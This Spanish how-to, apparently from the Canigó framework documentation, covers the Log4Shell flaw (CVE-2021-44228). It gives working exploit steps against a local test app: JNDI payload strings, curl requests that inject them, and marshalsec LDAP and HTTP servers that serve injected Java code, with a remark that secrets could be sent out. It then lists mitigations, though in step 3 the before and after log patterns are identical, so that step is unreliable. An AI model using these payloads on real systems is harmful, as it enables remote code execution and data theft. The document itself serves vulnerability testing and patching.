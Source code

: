+++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilidad: CVE-2021-44228 (log4jshell)"
description = "Como correguir la vulnerabilidad CVE-2021-44228 (log4jshell)"
section     = "howtos"
categories  = ["canigo"]
key         = "GENER2022"
+++

Esta vulnerabilidad permite ejecutar código en un servidor remoto, inyectando una petición JNDI `${jndi:(ldap|rmi|etc)}` dentro cualquier variable que se registre en el log del servidor. Para explotar la vulnerabilidad, se siguen estos pasos:

1. En el servidor que aloja la aplicación vulnerable, se registra la información que contiene la carga útil maliciosa, por ejemplo: `${jndi:ldap://[servidor]/[carga útil]}`, donde el servidor está controlado por el atacante y la carga útil contiene el comando a ejecutar.
2. La vulnerabilidad se activa y el servidor vulnerable, solicita al servidor del atacante a través de JNDI el código malicioso.
3. La respuesta del servidor del atacante contiene la ruta a una clase Java maliciosa, por ejemplo: `http://[servidor]/exploit.class`, que se inyecta en el contexto de la aplicación vulnerable.
4. La carga útil inyectada permite al atacante ejecutar código arbitrario.

> fuentes: \
> <https://github.com/YfryTchsGD/Log4jAttackSurface> \
> <https://github.com/christophetd/log4shell-vulnerable-app> \
> <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
> <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
> <https://www.randori.com/blog/cve-2021-44228/>

## Como explotar la vulnerabilidad en Canigó

1. Crear una aplicación con el archetype de Canigó por ejemplo: `CanigoLog4jShellTest`

  ```sh
  # Canigó 3.6
  mvn archetype:generate \ 
  -DarchetypeGroupId=cat.gencat.ctti \
  -DarchetypeArtifactId=plugin-canigo-archetype-rest \
  -DarchetypeVersion=1.7.0 \
  -DartifactId=CanigoLog4jShellTest \
  -DgroupId=cat.gencat.ctti \
  -Dversion=1.0.0 -B
  ```

2. Modificar el servicio de pruebas: `EquipamentServiceController` para imprimir en el log, los parámetros de entrada del servicio de creación de equipaments

  ```java
  import org.apache.logging.log4j.LogManager;
  import org.apache.logging.log4j.Logger;
  
  private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

  public void saveEquipament(@RequestBody Equipament equipament) {
    log.error("equipament.getNom() {}", equipament.getNom());
    ...
  }
  ```

3. Iniciar el proyecto creado con el servidor tomcat embebido, por ejemplo:

  ```sh
  mvn clean spring-boot:run

  # or

  mvn clean package && java -jar ./target/CanigoLog4jShellTest.war

  # or

  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    canigo/app
  ```

### Utilizando el proyecto `canarytokens`

> El proyecto de código abierto: `canarytokens` permite generar tokens para explotar vulnerabilidades. \
> Sí al utilizar un token se explota una vulnerabilidad, se envía un correo electrónico con los detalles del acceso \
> <https://docs.canarytokens.org/guide/> \
> <https://github.com/thinkst/canarytokens> \

4. Generar un token tipo `log4jshell` desde: <https://canarytokens.org/generate#>, por ejemplo:

  ```txt
  ${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
  ```

5. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
  ```

6. Verificar en el buzón del correo configurado en `canarytokens` y comprobar el correo con la traza de la conexión remota al servidor de la aplicación

  ![Email exploit test](/images/howtos/log4jshell/email_exploit_alert.png)

  ![Canary tokens exploit details 1](/images/howtos/log4jshell/canary_token_exploit_details1.png)

  ![Canary tokens exploit details 2](/images/howtos/log4jshell/canary_token_exploit_details2.png)

### Utilizando un servidor LDAP

> Se requiere: SO Linux, Python3, git, maven, acceso a internet

4. Iniciar un servidor web que contenga el código malicioso a inyectar

  > Se puede utilizar el proyecto `https://github.com/cybereason/Logout4Shell.git` y modificar la clase `Log4jRCE.java` para agregar cualquier código malicioso que se quiera inyectar en un servidor

  ```sh
  git clone https://github.com/cybereason/Logout4Shell.git
  mvn clean package
  cd target/classes
  python3 -m http.server 8888
  ```

5. Iniciar un servidor LDAP

  > Se puede utilizar el proyecto `https://github.com/mbechler/marshalsec.git`
  #### Por ejemplo se puede agregar este código para inyectar en el servidor vulnerable una traza

  ```java
    String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
    System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
  ```   

  ```sh
  git clone https://github.com/mbechler/marshalsec.git
  mvn clean package -DskipTests
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
  ```

6. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
  ```

7. Revisar en el log de la aplicación `CanigoLog4jShellTest` los efectos de explotar la vulnerabilidad

  > Con la vulnerabilidad

  [LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

  > Sin la vulnerabilidad

  [LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

  > Se puede apreciar en el log de `CanigoLog4jShellTest` la traza generada por el código inyectado. Se podria obtener por ejemplo, todas las variables de entorno, o los archivos de configuración y enviarlos por correo

## Como solventar/mitigar la vulnerabilidad

---

1. Sustituir la version de la dependencia de la librería `log4j` (tiempo de compilación). Por ejemplo:

   1.1 modificando el: `pom.xml` (Opción recomendada) (requiere recompilar y desplegar)

  ```xml
  <properties>
    <log4j2.version>2.15.0</log4j2.version>
  </properties>
  ```

  1.2 inyectando la variable durante la construcción de la aplicación (requiere recompilar y redesplegar)

  ```sh
  mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
  ```

2. Configurar la variable: `log4j2.formatMsgNoLookups (tiempo de ejecución)

  2.1 inyectando la variable (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  ```sh
  mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
  ```

  2.2 agregando una variable de entorno (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  > fuente: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/

  ```sh
  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    --env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
    canigo/app
  ```

3. Modificar el patron de trazas configuradas en el archivo: `log4j.xml` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  > fuente: https://kb.vmware.com/s/article/87093

  ```sh
  ## cambiar:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />

  ## por:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
  ```

4. Eliminar la clase `maliciosa` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  ```sh
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```
